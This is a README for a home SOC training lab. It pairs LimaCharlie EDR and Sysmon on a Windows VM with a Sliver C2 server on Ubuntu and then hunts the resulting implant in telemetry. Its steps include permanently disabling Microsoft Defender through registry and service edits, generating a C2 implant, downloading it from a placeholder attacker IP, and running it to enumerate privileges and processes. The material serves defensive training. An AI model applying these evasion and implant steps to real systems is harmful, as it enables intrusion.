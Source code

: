 # SOC-MOCK
## Objective 
![Image](.png)
This project aimed to build a realistic Security Operations Center (SOC) training environment focusing on practical skills for detecting and responding to cyber threats.
- Advanced threat detection tools like Sysmon and LimaCharlie EDR were deployed for real-time analysis
- Adversary techniques were simulated, and threat responses were automated to stay ahead of potential risks
- YARA rules were integrated to enhance malware detection capabilities
<br><br>

## Components

- **VirtualBox**: Used for creating and managing virtual machines
- **Ubuntu Server VM**: Used to deploy the Sliver C2 framework, which acts as a simulated attacker tool
- **Windows VM**: Used as victim endpoint device
- **LimaCharlie EDR**: An EDR platform used to collect, analyze logs and investigate telemetry from the Windows VM
- **Sliver C2**: A simulated attacker tool used to create a Command & Control (C2) server on the Ubuntu VM
- **YARA Rules**: Specific sets of instructions used to identify malware based on patterns
- **Sysmon**: Windows system service used to monitor and log system activity to the event log
- **VirusTotal**: A service for analyzing suspicious files and URLs for malware
- **NAT Network**: Configured in VirtualBox for network simulation

<details>
  <summary><h2><b>Section 1: Setting up the Virtual Environment</b></h2></summary>
  This section will guide through the setup of virtual environment using VirtualBox (If you want you, can use VMware as well). Configure a NAT network and install two virtual machines – one for Ubuntu Server and another for a Windows 10. <br><br>

   **Step 1: Download and setup Virtualbox**:  
    You can download Virtualbox from here. Setup is pretty straightforward
    <br><br>
   **Step 2: Create a New VM for Windows 10**:  
   Next, set up a new virtual machine in VirtualBox for Windows 10.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 50 GB
    <br><br>
    
   **Step 3: Create a New VM for Ubuntu Server**:  
    Now, set up a new virtual machine in VirtualBox for Ubuntu Server.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 20 GB
   - During OS install, **leave defaults as is**
  ![Image](https://imgur.com/GDfOZmg.png)
    <br><br>
  - After installation it should look like this:
  ![Image](https://imgur.com/9VNGxVp.png)
    <br><br>
       
   **Step 4: Configure Windows VM**:  
    Permanently disable Microsoft Defender so it doesn’t interfere with the fun stuff we’re planning. This is pretty tricky (especially in Windows 11) as Defender will turn itself back on.
1. Disable Tamper Protection
  - Go to "Windows Security"
  - Click “Virus & threat protection”
  - Under “Virus & threat protection settings” click “Manage settings”
  - Toggle OFF the “Tamper Protection” switch. When prompted, click “Yes”
![Image](https://imgur.com/iTuPTwi.png)
  - Toggle every other option OFF as well
2. Permanently Disable Defender via Group Policy Editor
  - Click the “Start” menu icon
  - Type “cmd” into the search bar within the Start Menu
  - Right+Click “Command Prompt” and click “Run as administrator”
  - Run the following command
```
gpedit.msc
```
  - Inside the Local Group Policy Editor
  - Click Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus
  - Double-click “Turn off Microsoft Defender Antivirus”
  - Select “Enabled” (If you enable this policy setting, Defender doesn't run, and will not scan for malware or other potentially unwanted software)
  - Click "Apply"
![Image](https://imgur.com/9bsP5Lf.png)
3. Permanently Disable Defender via Registry
  - From the same administrative cmd, copy/paste this command and press Enter
<br>

```
REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

</br>

4. Prepare to boot into Safe Mode to disable all Defender services
  - Click the “Start” menu icon
  - Type “msconfig” into the search bar
  - Go to “Boot” tab and select “Boot Options”
  - Check the box for “Safe boot” and “Minimal”
![Image](https://imgur.com/0K1OBWq.png)
  - Click Apply and OK
  - System will restart into Safe Mode

5. Now, in Safe Mode, we’ll disable some services via the Registry
  - Press the “Win + R"
  - Type “regedit” into the search bar and hit Enter
  - For each of the following registry locations, browse to the key, find the “Start” value, and change it to "4"
![Image](https://imgur.com/IWskQZt.png)
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sense
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdBoot
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDefend
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisDrv
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisSvc
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdFilter

6. Leave Safe Mode the same way we got into it
  - Uncheck the box for “Safe boot”
  - System will restart into normal desktop environment, hopefully Defender-free
    <br><br>
</details>

<details>
  <summary><h2><b>Section 2: Install Sysmon in Windows VM</b></h2></summary>

This is actually optional in this project, but it’s a must-have analyst tool for getting very granular telemetry on your Windows endpoint. You can read more about it
[here](https://www.learn.microsoft.com/en-us/sysinternals/downloads/sysmon/). 

1. **Launch an Administrative PowerShell console for the following commands:**

- Click the “Start” menu icon
- Type “Powershell” into the search bar within the Start Menu
- Click “Windows PowerShell” and click “Run as administrator”

2. **Download Sysmon with the following command:**
```
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
```
3. **Unzip sysmon.zip**
```
Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
```
4. **Download SwiftOnSecurity’s Sysmon config**
```
Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
5. **Install Sysmon with Swift’s config**
```
C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
![Image](https://imgur.com/eUuEwgD.png)

6. **Check Sysmon64 service is installed and running**
```
Get-Service sysmon64
```
7. **Check for the presence of Sysmon Event Logs**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 10
```
  <br><br>
</details>

<details>
  <summary><h2><b>Section 3: Install LimaCharlie EDR on Windows VM</b></h2></summary>

  [LimaCharlie](https://www.limacharlie.io/) 
  is a very powerful SecOps Cloud Platform. It not only comes with a cross-platform EDR agent, but also handles all of the log shipping/ingestion and has a threat detection engine. In free version you can create for up to two systems which is great for projects like this.

1. **Create a free LimaCharlie account**
- LimaCharlie will ask you a few questions about your role. Answer however you like.

2. **Create an organization**

Name: *Anything*

Data Residency Region: *Closest to you*

Demo Configuration Enabled: *Disabled*

Template: *Extended Detection & Response Standard*
![Image](https://imgur.com/T1INyuQ.png)

3. **Click "Add a Sensor"**

- Select Windows
- Provide a description such as: Windows VM - Lab
- Click Create
- Select the Installation Key we just created
![Image](https://imgur.com/ba1VqUg.png)
- Select the "x86-64 (.exe)" sensor
![Image](https://imgur.com/mP2CI8j.png)



- In Windows VM, open an Administrative PowerShell and paste the following commands:
```
cd C:\Users\User\Downloads
```
```
Invoke-WebRequest -Uri https://downloads.limacharlie.io/sensor/windows/64 -Outfile C:\Users\User\Downloads\lc_sensor.exe
```
![Image](https://imgur.com/LGFmfRt.png)
- Shift into a standard admin cmd

- Copy the install command provided by LimaCharlie which contains the installation key. Paste this command into your open terminal.
![Image](https://imgur.com/D0UvIR4.png)

- If everything worked correctly, in the LimaCharlie web UI you should see the sensor reporting in


4. **Configure LimaCharlie to also ship the Sysmon event logs alongside its own EDR telemetry**

- In the left-side menu, click “Artifact Collection”
- Next to “Artifact Collection Rules” click “Add Rule”
```
Name: windows-sysmon-logs
Platforms: Windows
Path Pattern: wel://Microsoft-Windows-Sysmon/Operational:*
Retention Period: 10
```
- Click “Save Rule”
![Image](https://imgur.com/VgxX27Q.png)

LimaCharlie will now start shipping Sysmon logs which provide a wealth of EDR-like telemetry, some of which is redundant to LC’s own telemetry, but Sysmon is still a very power visibility tool that runs well alongside any EDR agent.

The other reason we are ingesting Sysmon logs is that the built-in Sigma rules we previously enabled largely depend on Sysmon logs as that is what most of them were written for.

> Now would be a good time to Snapshot your Windows VM
</details>

<details>
  <summary><h2><b>Section 4: Setup Attack System </b></h2></summary>
  I recommend using an SSH client to access the Ubuntu VM so that you can easily copy/paste commands.

1. **Open your CLI**

```
ssh username@[Linux_VM_IP]
```

2. **Now, from within this new SSH session, proceed with the following instructions to setup our attacker C2 server. First, gain access to the root shell to make life easier.**

```
sudo su
```

3. **Run the following commands to download Sliver, a Command & Control (C2) framework by BishopFox. I recommend copy/pasting the entire block as there is line-wrapping occurring.**

- Download Sliver Linux server binary
```
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
```
- Make it executable
```
chmod +x /usr/local/bin/sliver-server
```
- install mingw-w64 for additional capabilities
```
apt install -y mingw-w64
```
- Create our future working directory
```
mkdir -p /opt/sliver
```
![Image](https://imgur.com/LCfhKok.png)

> Explore the LimaCharlie web interface to learn more about what it can do!
</details>
<details>
  <summary><h2><b>Section 5: Generate the Command & Control payload </b></h2></summary>
  Either from your SSH session or directly from your Ubuntu Server, take the following actions:
  <br></br>

  1. **Access root shell and change dir to Sliver install**

```
sudo su
cd /opt/sliver
```

  2. **Launch Sliver server**

```
sliver-server
```
![Image](https://imgur.com/8DsuXyT.png)
  3. **Generate C2 session payload. Use your Linux VM’s IP address**
```
generate --http [Linux_VM_IP] --save /opt/sliver
```
![Image](https://imgur.com/EN108X6.png)
  4. **Confirm the new implant configuration**
```
implants
```
  5. **Now we have a C2 payload we can drop onto our Windows VM. Exit Sliver for now.**
```
exit
```

  6. **To easily download the C2 payload from the Linux VM to the Windows VM, use this python trick that spins up a temp web server**
```
cd /opt/sliver
python3 -m http.server 80
```
![Image](https://imgur.com/gQG90re.png)
  7. **Switch to the Windows VM and launch an Admin PowerShell console to download the implant from Ubuntu server**
```
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
```
![Image](https://imgur.com/iU5lry0.png)
> Now would be a good time to snapshot your Windows VM, before we execute the malware.

</details>
<details>
  <summary><h2><b>Section 6: Start Command & Control Session  </b></h2></summary>

1. **Now that the payload is on the Windows VM, switch back to the Linux VM SSH session and enable the Sliver HTTP server to catch the callback**

- Terminate the python web server by pressing "Ctrl + C"
- Now, relaunch Sliver
```
sliver-server
```
- Start the Sliver HTTP listener
```
http
```
![Image](https://imgur.com/2RqMkmX.png)
- If you get an error starting the HTTP listener, reboot the VM

2. **Return to the Windows VM and execute the C2 payload from its download location using the same admin PowerShell prompt**
```
C:\Users\User\Downloads\<your_C2-implant>.exe
```
![Image](https://imgur.com/N8Z5Xo1.png)
3. **Within a few moments, you should see your session check in on the Sliver server**
![Image](https://imgur.com/1Rs38Xn.png)
4. **Verify your session in Sliver, and note its Session ID**
```
sessions
```
5. **To interact with your new C2 session, type the following command into the Sliver shell**
```
use [session_id]
```

> c0ngratulations! you pwned your Windows VM
6. **Now, run a few basic commands**

- To get info about the session
```
info
```
- Find out the user and learn his privileges
```
whoami
```
![Image](https://imgur.com/IO9bJZi.png)
```
getprivs
```
![Image](https://imgur.com/Krpmh17.png)
> If your implant was properly run with Admin rights, you’ll notice you have a few privileges that make further attack activity much easier, such as “SeDebugPrivilege” — if you don't see these privileges, make sure you ran the implant from an Admin command prompt
- Identify implant’s working dir
```
pwd
```
- Examine network connections occurring on the remote system
```
netstat
```
- Identify running processes on the remote system
```
ps -T
```
![Image](https://imgur.com/AIMklUP.png)
> Notice that Sliver highlights its own process in green and any defensive tools in red. This is how attackers become aware of what security products a victim system using.
  </details>

<details>
  <summary><h2><b>Section 7: Observe EDR Telemetry</b></h2></summary>

1. **Hop into the LimaCharlie web UI and check out some basic features**

- Click “Sensors” on left menu

- Click your active Windows sensor


- On the new left-side menu for this sensor, click “Processes”


> Explore what is returned in the process tree. Hover over some of the icons to see what they represent

Knowing common processes on a system is very important. As professionals say at SANS, *“you must know normal before you can find evil”* Check out this [“Hunt Evil”](https://www.sans.org/posters/hunt-evil/) poster from SANS.


2. **One of the easiest ways to spot unusual processes is to simply look for ones that are NOT signed**
- The C2 implant shows as not signed, and is also active on the network.


- Notice how quickly we are able to identify the destination IP this process is communicating with.

3. **Now click the “Network” tab on the left-side menu**

- Explore what is returned in the network list. "Ctrl+F" to search for your implant name

4. **Now click the “File System” tab on the left-side menu**

- Browse to the location we know our implant to be running from


5. **Inspect the hash of the suspicious executable by scanning it with VirusTotal**

> “*Item not found*” on VirusTotal doesn't mean that this file is innocent, it just might not that scanned before. This makes sense because you just generated this payload, so of course it’s not likely to be seen by VirusTotal before. So, if you already suspect a file to be possible malware, but VirusTotal has never seen it before, trust your instincts. This actually makes a file even more suspicious because nearly everything has been seen by VirusTotal, so your sample may have been custom-crafted/targeted.

6. **Click “Timeline” on the left-side menu of our sensor. This is a real-time view of EDR telemetry + event logs streaming from this system**

- Read about the various EDR events in the LimaCharlie docs.

- Filter your timeline with known IOCs (indicators of compromise) such as the name of your implant or the known C2 IP address

- If you scroll back far enough, should be able to find the moment your implant was created on the system, and when it was launched shortly after, and the network connections it created immediately after


7. **Examine the other events related to your implant process** 

- you’ll see it is responsible for other events such as “SENSITIVE_PROCESS_ACCESS” from when you enumerated your privileges in an earlier step. This particular event will be useful later on when you will craft your first detection rule

> I recommend spending more time exploring LimaCharlie telemetry to familiarize yourself not only with the known-bad events, but also the abundance of “normal” things happening on your “idle” Windows VM.

![Image](assets/3.gif)
  </details>

<details>
  <summary><h2><b>Section :  </b></h2></summary>

  </details>